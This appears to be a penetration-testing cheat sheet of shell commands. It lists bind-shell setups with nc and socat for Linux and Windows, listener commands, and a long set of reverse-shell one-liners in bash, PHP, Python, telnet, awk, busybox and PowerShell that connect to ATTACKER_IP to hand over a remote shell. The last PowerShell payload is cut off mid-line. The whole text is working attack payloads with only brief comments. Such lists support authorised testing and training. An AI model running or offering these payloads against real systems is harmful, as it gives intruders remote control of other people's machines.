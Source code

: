 ```bash
# Bind Shell
# Target <-- Attacker

# Target (nc)
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
# Linux Target (socat)
socat TCP-L:PORT EXEC:"bash -li"
# Windows Target (socat)
socat TCP-L:PORT EXEC:powershell.exe,pipes

# Attacker
nc -nv TARGET_IP 8080
socat TCP:TARGET-IP:TARGET-PORT -
```

```bash
# Listeners
rlwrap nc -nvlp 443 # more featured shell
ncat -nvlp 4444
ncat --ssl -nvlp 4444
socat -d -d TCP-LISTEN:443 STDOUT
```

```bash
# Shell Payloads e.g.
# other here https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5

php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'

export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKERIP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKERIP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'

TF=$(mktemp -u);mkfifo $TF && telnet ATTACKERIP 443 0<$TF | sh 1>$TF

awk 'BEGIN {s = "/inet/tcp/0/ATTACKERIP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

busybox nc ATTACKER_IP 443 -e sh

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
```
